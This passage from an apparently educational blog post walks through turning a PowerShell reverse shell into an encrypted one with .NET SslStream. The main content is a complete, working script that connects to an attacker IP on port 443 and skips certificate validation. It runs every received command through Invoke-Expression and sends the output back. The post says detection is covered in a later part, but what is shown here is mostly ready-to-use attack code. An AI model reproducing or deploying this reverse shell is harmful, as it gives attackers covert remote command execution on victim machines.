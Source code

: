 ![]({{site.url}}{{page.images_prefix}}ssl_channel.png)

Note that a bunch of information in the TLS/SSL handshake appears in the screen, but after the two hosts successfully exchange their sessions keys (PSK), a secure channel is established, and now we can work just like we are working with our netcat!


### SSL stream in Powershell


Now, let's modify a little our code to use an SSL stream in the connection instead a raw TCP connection.

We will use the [System.Net.Security.SslStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.security.sslstream?view=netcore-3.1) for this, in this .NET class we have a few constructors available, but we will use the ***SslStream(Stream, Boolean, RemoteCertificateValidationCallback)*** which give us the ability to defined our own verification function to the certificate, we do this because we don't want to verify the validity of this cert. The new snippet will look like this:

```powershell
$stream = New-Object System.Net.Security.SslStream($client.GetStream(), $false, {$true}, $null);
$stream.AuthenticateAsClient($target);
```

Note that we pass our current stream, false to leaveInnerStreamOpen(second argument), and a anonymous function that always return ***true*** in the certificate verification process and null to userCertificateSelectionCallback parameter.

With this we have a fully encrypted channel between our target and the attacker, we will enter in the Network connection details in the ***Threat Analysis and Detection*** section!


Reverse SSL Powershell code:

```powershell
$target="172.16.110.129"
$port = 443

$client = New-Object System.Net.Sockets.TcpClient;
$client.Connect($target,$port)

[byte[]]$buff = 0..4096 | %{0xff};
$stream = New-Object System.Net.Security.SslStream($client.GetStream(), $false, {$true}, $null);
 
$stream.AuthenticateAsClient($target);


while (($size = $stream.Read($buff, 0, $buff.Length)) -ne -1) { # Until connection die
    $command = [System.Text.ASCIIEncoding]::ASCII.GetString($buff, 0, $size);
    $command_response = iex $command | Out-String; # Invoke-Expression shorten
    $command_back = [System.Text.ASCIIEncoding]::ASCII.GetBytes($command_response, 0, $command_response.Length);
    $stream.Write($command_back, 0, $command_back.Length);
}


$client.Close();
```





To be continued at Threat Analysis and Detection (Part 2)...

